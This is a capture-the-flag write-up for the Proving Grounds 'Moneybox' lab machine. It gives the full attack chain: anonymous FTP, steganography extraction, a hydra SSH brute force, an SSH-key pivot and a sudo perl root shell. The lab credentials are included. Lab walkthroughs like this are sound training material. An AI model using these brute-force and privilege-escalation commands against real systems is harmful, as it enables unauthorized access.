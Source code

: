```yaml
---
layout: default
title: Moneybox
parent: Proving Grounds Play
nav_order: 24
---
```


# Moneybox

---

## Discovered Ports for Enumeration

- _21_ - FTP
- _22_ - SSH
- _80_ - HTTP

## Users and Credentials

- _Users_: renu, lily
- _Credentials_: renu:987654321

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.162.230
```

# Enumeration

---

## 21 - FTP

Anonymous logon allowed.

Discovered _trytofind.jpg_ and downloaded locally.

![ftp](../../../assets/images/ctfs/proving_grounds/moneybox/ftp.png)

Located the following strings within _trytofind.jpg_

```bash
strings -n 20 trytofind.jpg
456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```

## 80 - HTTP

### wfuzz

Found _/blogs_ directory.
Contains secret directory in HTML source code.

![secret](../../../assets/images/ctfs/proving_grounds/moneybox/secret.png)

Found a secret key in the _/S3cr3t-T3xt_ directory source code

![secret2](../../../assets/images/ctfs/proving_grounds/moneybox/secret2.png)

### Steghide

Use _steghide_ to extract file from _trytofind.jpg_ by passing in the discovered secret passphrase _3xtr4ctd4t4_

```bash
steghide extract -sf trytofind.jpg --passphrase 3xtr4ctd4t4
```

![steghide](../../../assets/images/ctfs/proving_grounds/moneybox/steghide.png)

We now have the user _renu_

# Exploitation

---

## Hydra

Use _hydra_ to crack the password for _renu_ on SSH

```bash
hydra -l renu -P '/usr/share/wordlists/rockyou.txt' 192.168.162.230 ssh
```

![hydra](../../../assets/images/ctfs/proving_grounds/moneybox/hydra.png)

SSH to target with credentials _renu:987654321_

# Post-Exploitation

---

## Enumerate Users

Locate the user _lily_ and _.ssh_ directory with an authorized key that can be used to pivot to _lily_

```bash
cd /home/lily/.ssh
ssh lily@127.0.0.1
```

![lily](../../../assets/images/ctfs/proving_grounds/moneybox/lily.png)

## Sudo permissions

We have sudo privileges for _/usr/bin/perl_

![sudo](../../../assets/images/ctfs/proving_grounds/moneybox/sudo.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/moneybox/gtfobins.png)

Run _perl_ to execute /bin/bash and elevate to a root shell.

```bash
sudo perl -e 'exec "/bin/bash";'
```

![root](../../../assets/images/ctfs/proving_grounds/moneybox/root.png)
